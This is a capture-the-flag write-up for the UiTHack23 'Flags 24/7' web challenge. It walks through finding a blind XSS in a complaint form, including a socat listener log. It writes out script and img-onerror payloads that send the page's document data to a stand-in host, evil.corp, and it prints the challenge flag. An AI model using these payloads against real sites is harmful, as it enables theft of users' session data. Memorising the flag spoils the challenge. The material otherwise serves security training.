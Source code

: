 # Flags 24/7

Bill gates approves this design

motherload.td.org.uit.no:5050

# Writeup

Looking at the website I found nothing at a first glance. There is a post which runs a request when pressing the get flag. I'll look more into that if it's not a read herring.

```
curl 'http://motherload.td.org.uit.no:5000/complaint' \
  -H 'Content-Type: application/json' \
  --data-raw '{"email":"test","complaint":"test"}'
```

I sent a few requests but nothing seems to work. So I tried to see if someone was reading those complaints via HTML by sending exactly that, HTML data. Sending the following request while hosting a simple `socat` server using `socat - TCP-LISTEN:1234,fork,reuseaddr`. 

```
curl 'http://motherload.td.org.uit.no:5000/complaint' \
  -H 'Content-Type: application/json' \
  --data-raw '{"email":"<img src='http://evil.corp:1234/email.png'>","complaint":"<img src='http://evil.corp:1234/complaint.png'>"}'
```

Seems to do nothing. So I'll looking at other things in the DOM. I found nothing really exploitable. Everything is local. The  logo is kinda weird it has a weird hash in it:

```
http://motherload.td.org.uit.no:5050/static/media/logoHeader.a2e1f8a09e95fdffdafd.png
```

Seems like nothing, crackstation did not have this hash, neither did google. But it is in the flags 24/7. Woah, there I got something in my socat session!

```bash
ubuntu@vm23152:~$ socat - TCP-LISTEN:1234,fork,reuseaddr
Listening on 0.0.0.0 1234
Connection received on 129.242.219.77 35664
GET /complaint.png HTTP/1.1
Host: evil.corp:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/109.0.5414.74 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://motherload.td.org.uit.no:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

Wow, someone actually reads the complaints?  Seems like the complaint field is XSS'able. We're actually dealing with `Blind XSS`. This is when you can kinda add a ticking bomb to the system. You dont know when it is executed but once it does it will be run on the victims machine. So you need to keep your server up to receive the data. Seems like it runs every minute so I'll have to wait one minute for each test.

So I try to see if I can get RCE by getting the document object.

```json
{
	"email": "",
	"complaint": "<script>document.location= 'http://evil.corp:1234/?' + JSON.stringify(document)</script>"
}
```

Not really getting anything. Might be that script is filtered. Opening the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#dom-based-xss) reminded me of the onerror in image which ofcourse also executes scripts.

```json
{
	"email": "",
	"complaint": "<img src=/ onerror='this.src=\"http://evil.corp:1234/test.png\"'>"
}
```

Oh this worked, lets see if I can get document.cookie:


```json
{
	"email": "",
	"complaint": "<img src=/ onerror='this.src=\"http://evil.corp:1234/test.png?\" + JSON.stringify(document)'>"
}
```

And there we go we got the whole document object: 

```
GET /test.png?{%22location%22:{%22ancestorOrigins%22:{},%22href%22:%22http://motherload.td.org.uit.no:5000/admin?sha256=<REDACTED>%22,%22origin%22:%22http://motherload.td.org.uit.no:5000%22,%22protocol%22:%22http:%22,%22host%22:%22motherload.td.org.uit.no:5000%22,%22hostname%22:%22motherload.td.org.uit.no%22,%22port%22:%225000%22,%22pathname%22:%22/admin%22,%22search%22:%22?sha256=<REDACTED>%22,%22hash%22:%22%22}} HTTP/1.1
Host: evil.corp:1234
Connection: keep-alive
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/109.0.5414.74 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://motherload.td.org.uit.no:5000/
Accept-Encoding: gzip, deflate
Accept-Language: en-US

```

Some quick urlencoding, and prettifying:

```json
{
  "location": {
    "ancestorOrigins": {},
    "href": "http://motherload.td.org.uit.no:5000/admin?sha256=<REDACTED>",
    "origin": "http://motherload.td.org.uit.no:5000",
    "protocol": "http:",
    "host": "motherload.td.org.uit.no:5000",
    "hostname": "motherload.td.org.uit.no",
    "port": "5000",
    "pathname": "/admin",
    "search": "?sha256=<REDACTED>",
    "hash": ""
  }
}
```

I think I'm breaking something I was not supposed to break here. But `motherload.td.org.uit.no:5000` is an external server running the `admin` endpoint. It gives a error `901 NO FLAG HERE`. But adding that redacted sha256 to the url request I get `test`. There is also a script loaded in there which looks like this:

```js
fetch(
  "http://motherload.td.org.uit.no:5000/db?sha256=<REDACTED>"
)
  .then((response) => {
    return response.json();
  })
  .then((data) => {
    displayCocktail(data);
  })
  .catch((error) => console.error("FETCH ERROR:", error));

function displayCocktail(data) {
  document.cookie = "flag=UiTHack23{xxspl0its_4r3_phun}";
  const cocktailDiv = document.getElementById("cocktail");
  try {
    data.forEach((issue) => {
      const cocktailName = document.createElement("div");
      cocktailName.innerHTML = issue[1];
      cocktailDiv.appendChild(cocktailName);
    });
  } catch (e) {}
}

phantom.exit();
```

Here I can see the flag. I also see that the endpoint `db` is showing our complaints once, then deletes them. So I could break it here by curling this endpoint ever 5 seconds and steal all your complaints. `*evil-laughter*`.  The meaning is that we are blind xss'ing the document.cookie as I read it. But I think I went a step further.

# Flag

```
UiTHack23{xxspl0its_4r3_phun}
```

